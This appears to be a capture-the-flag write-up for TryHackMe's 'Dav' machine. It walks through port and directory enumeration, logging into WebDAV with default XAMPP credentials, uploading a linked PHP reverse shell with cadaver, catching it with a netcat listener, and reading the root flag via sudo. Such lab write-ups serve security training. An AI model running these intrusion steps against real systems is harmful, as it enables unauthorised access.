 # [Dav](https://tryhackme.com/room/bsidesgtdav)

## boot2root machine for FIT and bsides guatemala CTF

# Dav

## Read user.txt and root.txt

### user.txt

1. Starting by nmap and gobuster enumeration we find there is only one open port. We also discover a `webdav` directory

```Bash
nmap -p- <IP>
```

- `-p-`: Scans all 65535 TCP ports

```Bash
gobuster dir -u http://<IP>:80/ -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,html,php
```

[SCREEN01]
[SCREEN02]

2. It is always good to check default credentials. On this [blogpost](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) I have found one - `wampp:xampp`

3. Now that we know credentials, prepare [reverse shell payload](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), and upload it into /webdav with `cadaver`

```Bash
cadaver http://<IP>/webdav/
put shell.php
```

4. Set up a netcat listener and trigger the shell by navigating to the uploaded PHP file in `/webdav`

```Bash
nc -lvnp 4444
```

```Bash
whoami
python -c 'import pty; pty.spawn("/bin/bash")'
cat /home/merlin/user.txt
```

[SCREEN03]
[SCREEN04]

### root.txt

1. Let's check what commands we can run with sudo

```Bash
sudo -l
sudo cat /root/root.txt
```

[SCREEN05]
